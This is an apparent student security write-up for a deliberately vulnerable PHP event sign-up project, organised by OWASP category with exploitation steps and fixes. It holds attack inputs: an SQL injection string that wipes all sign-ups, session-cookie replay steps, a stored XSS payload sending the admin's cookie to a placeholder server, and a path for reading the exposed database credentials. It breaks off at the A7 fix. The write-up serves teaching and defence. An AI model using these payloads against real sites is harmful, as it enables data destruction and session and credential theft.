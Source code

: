 This project is done with PHP in a LAMP environment. 
See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are many problems with the code, but I will only mention the most relevant problems and the most important fixes (as I saw them) for each OWASP vulnerability, without going into details. Had to draw a line somewhere, otherwise I could have ended up spending so much time with this (and the assignment didn’t say how specific we needed to be about the fixes). 

The OWASP vulnerabilities:

## A1

How: Sign up some users to the event. Check from the Admin page. Then go to the Cancel page and enter: ' OR '1'='1. All the sign-ups are now gone, as you can see from the Admin page!    
Fix: The “mysqli_real_escape_string” function can be used in “delete.php” on the $ticket variable, to prevent the SQL-injection (as used in “done.php” on other variables). But a simple input validation (fixed length + lowcase alfanum only) would also fix the problem in this case.
## A2
a) Guessable fixed admin credentials (admin/password), which are stored in the source code (login.php) with no encryption. 
b) The cookie-session-id and the clear text admin credentials are sent over an unencrypted connection. You can see them with OWASP ZAP.
How (broken session management): You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” Firefox add-on): 
1) Go to the Admin login-page with Firefox (but don’t log in, - if you are not asked for the credentials then close the browser and try again). 
2) Open “Advanced Cookie Manager” and enter the cookie-session-id you saw with OWASP ZAP into the "Value" box, replacing the existing one (delete first, then paste). Save the change.
3) Re-enter the Admin page (do not only reload), and you’re in without entering credentials!
Note: You can use OWASP ZAP together with another browser, to capture the cookie-session-id, when logging in.
Fix: Use SSL for the website (see the GitHub Readme)! 

Besides that, the session could be re-generated and the old one destroyed with some intervals. And the session could be made to timeout sooner.  The “secure” and “path” parameters could be used for the session cookie (+ httponly to defend against A3).
The admin credentials could be stored in the database with the password salted + hashed. The admin should be able to change (at least) the password. 
## A3
There are both Stored and Reflected XSS vulnerabilities. The Stored XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
How (stored XSS): Enter this code into the address field on the SignUp page;
<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>
When the admin logs in and takes a look at the sign-ups, his session-id should be written to the logs of “yourserver”. But you can also test with code like this, in any of the fields on the SignUp page; 
<body onload=alert('hello')>
Fix:  Html codes should be escaped using the htmlspecialchars or htmlentities PHP-functions + the input validated as tightly as possible (length, allowed characters, format etc.).

## A6
Credit card numbers are sent without SSL in cleartext with POST, and stored unencrypted in the database. And, the session cookie and the admin credentials can be stolen since SSL is not in use (see A2).

How: Capture the (imaginary) credit card numbers using OWASP ZAP.

Fix: Again, use SSL! 

But there are many requirements when handling credit card data, see https://en.wikipedia.org/wiki/Payment_Card_Industry_Data_Security_Standard
Regarding the session cookie and admin credentials, see the A2-fix.
## A7
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
How: Modify “yourserver” in this link to match your installation;  http://yourserver/firstproject/admin/config.ini. Then open this link with your browser, and you should see the credentials.
Fix: 

